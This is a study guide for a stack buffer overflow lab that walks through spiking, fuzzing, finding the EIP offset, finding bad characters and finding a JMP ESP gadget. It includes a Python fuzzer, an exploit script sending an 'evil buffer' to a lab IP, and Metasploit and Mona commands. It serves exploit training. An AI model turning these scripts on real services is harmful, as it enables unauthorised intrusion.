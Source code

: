 Notes on Buffer Overflows

### Basic Notes 
Need to run Immunity Debugger as Admin.
Make sure it's running.

## Steps to Conduct a Buffer Overflow
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode


## Configure Mona
#### Set up working folder
```
!mona config -set workingfolder c:\mona\%p
```
### Python Fuzzer Script

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "Target IP Address"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
##### Purpose of the Script
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. We need to write down how many bytes it sends and add 400 to help with with the exploit.

##### After we know the value from the fuzzer, we can use Metasploit to create a cyclic pattern that we need for our exploit.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (The number of bytes from the Fuzzer.py script + 400) 
```

##### Purpose of the Script
The exploit script is used to crash the service and help find the EIP Offset.
  ### Python Exploit Script
  
```python 
import socket

ip = "10.10.165.171"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
When we have the payload from the patter_create.rb script, we copy that into the payload variable and run the exploit script again. We then need to use Mona to help finish finding the EIP Offset.
```
!mona findmsp -distance (The number of bytes from the Fuzzer.py script + 400) 
```

###
We need to update the exploit script.
```python
offset = (needs to be the EIP value we just found from the last step)
retn = "BBBB"
```

### Finding Bad Chars

The folliwn Mona command will generate a bytearray and exclude the null byte (\x00) by default. * Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
```
!mona bytearray -b "\x00"
```

##### Purpose of the Script
The following python script can be used to generate a string of bad chars from \x01 to \xff:
### Python Bad Chars Script

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Once we run this, we use the output and update the exploit.py script payload variable with this output. Then run the exploit.py script again and start removing bad characters. We do this using Mona
```
!mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
```
##### Mona Modules to find vuln path
```
!mona modules
```

##### Using Mona Modules to find ESP JMP
```
!mona find -s "\xff\xe4" -m {vuln path}
```
